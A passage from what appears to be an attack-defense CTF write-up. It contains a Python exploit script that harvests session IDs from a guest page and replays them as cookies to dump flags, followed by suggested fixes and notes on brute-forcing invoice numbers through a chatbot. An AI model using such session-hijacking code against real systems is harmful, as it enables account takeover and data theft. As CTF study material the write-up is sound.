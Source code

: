 ```python

    r = s.post(f'{base_url}/make_me_a_vip', data = form)


def get_sessions():
    r = requests.get(f'{base_url}/guests')
    r = r.text

    sessions = re.findall(session_regex, r)

    return sessions


def dump_alarms(session):
    cookies = {
        'session_id' : session
    }

    r = requests.get(f'{base_url}/alarm', cookies = cookies)
    r = r.text

    flags = re.findall(flag_regex, r)

    if len(flags) > 0:
        for f in flags:
            print(f, flush=True)


def main():
    nuda_tutto_quanto()
    s = get_sessions()

    for t in s:
        dump_alarms(t)


if __name__ == '__main__':
    main()
```

## First fix
To avoid this exploit we can do basically two things:
- Update the table adding the `NOT NULL` constraint
- Checking the `recalc` parameter to avoid the `None` value


## Second exploit
The second flag bucket was located into the invoices database, so it is managed by the InvoiceApp application. We started analyzing the bridge between the two applications but we found nothing important. The only thing that caught our attention was, once again, the chatbot funcionalities: we can ask for invoice information if we are logged and we know the invoice number. So we can bruteforce them, but it is not really feasible. We tried to find a way to dump the invoice numbers but we achieved nothing.
